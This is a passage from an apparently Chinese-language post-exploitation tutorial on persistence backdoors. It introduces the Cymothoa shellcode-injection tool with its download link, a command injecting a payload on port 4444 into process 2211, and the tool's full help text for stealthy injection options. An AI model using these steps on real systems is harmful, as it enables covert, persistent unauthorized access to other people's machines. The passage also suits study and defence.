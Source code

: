 这里的一个参数可以使用`-h`显示帮助菜单。

然后定制即可。

但是这个的原理是在目标主机上创建文件，并且安装为自启动方式，因此可能会受到安全防护软件的扫描、查杀。

#### Cymothpa后门

这是一款可以将ShellCode注入现有进程的后门工具，使用Cymothoa注入的后门程序能够与被注入的程序共存。

> 好久之前的工具了，不过很强大

项目地址：[cymothoa - Browse Files at SourceForge.net](https://sourceforge.net/projects/cymothoa/files/)

使用方法：

```bash
./cymothoa -s 0 -p 2211 -y 4444
```

其帮助文档：

```bash
 1                               _                 
 2                           _  | |                
 3   ____ _   _ ____   ___ _| |_| |__   ___  _____ 
 4  / ___) | | |    \ / _ (_   _)  _ \ / _ \(____ |
 5 ( (___| |_| | | | | |_| || |_| | | | |_| / ___ |
 6  \____)\__  |_|_|_|\___/  \__)_| |_|\___/\_____|
 7       (____/  
 8 Ver.1 (beta) - Runtime shellcode injection, for stealthy backdoors...
 9 
10 By codwizard (codwizard@gmail.com) and crossbower (crossbower@gmail.com)
11 from ES-Malaria by ElectronicSouls (http://www.0x4553.org).
12 
13 Usage:
14     cymothoa -p <pid> -s <shellcode_number> [options]
15 
16 Main options:
17     -p    process pid
18     -s    shellcode number
19     -l    memory region name for shellcode injection (default /lib/ld)
20           search for "r-xp" permissions, see /proc/pid/maps...
21     -m    memory region name for persistent memory (default /lib/ld)
22           search for "rw-p" permissions, see /proc/pid/maps...
23     -h    print this help screen
24     -S    list available shellcodes
25 
26 Injection options (overwrite payload flags):
27     -f    fork parent process
28     -F    don't fork parent process
29     -b    create payload thread (probably you need also -F)
30     -B    don't create payload thread
31     -w    pass persistent memory address
32     -W    don't pass persistent memory address
33     -a    use alarm scheduler
34     -A    don't use alarm scheduler
35     -t    use setitimer scheduler
36     -T    don't use setitimer scheduler
37 
38 Payload arguments:
39     -j    set timer (seconds)
40     -k    set timer (microseconds)
41     -x    set the IP
42     -y    set the port number
43     -r    set the port number 2
44     -z    set the username (4 bytes)
45     -o    set the password (8 bytes)
```
